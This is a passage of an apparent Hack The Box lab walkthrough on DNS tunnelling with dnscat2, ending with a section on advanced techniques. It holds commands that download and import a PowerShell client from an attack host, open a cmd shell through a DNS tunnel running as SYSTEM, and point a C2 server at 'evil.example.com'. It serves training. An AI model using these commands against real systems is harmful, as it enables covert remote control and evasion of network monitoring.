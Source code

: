 #### **Step 4: Download and Execute Client**
```powershell
# In PowerShell on target machine
# Download dnscat2 client
Invoke-WebRequest -Uri "http://10.10.14.18:8000/dnscat2.ps1" -OutFile "dnscat2.ps1"

# Import module
Import-Module .\dnscat2.ps1

# Establish tunnel (use YOUR pre-shared secret!)
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain htblabs.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd
```

#### **Step 5: Access Shell Through Tunnel**
```bash
# On attack host dnscat2 server
dnscat2> windows
dnscat2> window -i 1

# Now you have shell access through DNS tunnel
C:\Windows\system32> whoami
nt authority\system

# Navigate to flag location
C:\Windows\system32> cd C:\Users\htb-student\Documents

# Read flag content
C:\Users\htb-student\Documents> type flag.txt
```

#### **Step 6: Submit Answer**
```
Answer: [Contents of flag.txt file]
```

---

## **7. Advanced Dnscat2 Techniques**

### **Custom Domain Configuration**
```bash
# Using custom domain with authoritative DNS
sudo ruby dnscat2.rb --dns host=0.0.0.0,port=53,domain=evil.example.com

# Client connection to custom domain
Start-Dnscat2 -DNSserver ns.evil.example.com -Domain evil.example.com -PreSharedSecret <secret>
```

### **Multiple Session Management**
```bash
# List all active sessions
dnscat2> windows

# Create new session window
dnscat2> window -n "new_session"

# Switch between sessions
dnscat2> window -i 2

# Kill specific session
dnscat2> kill 1
```
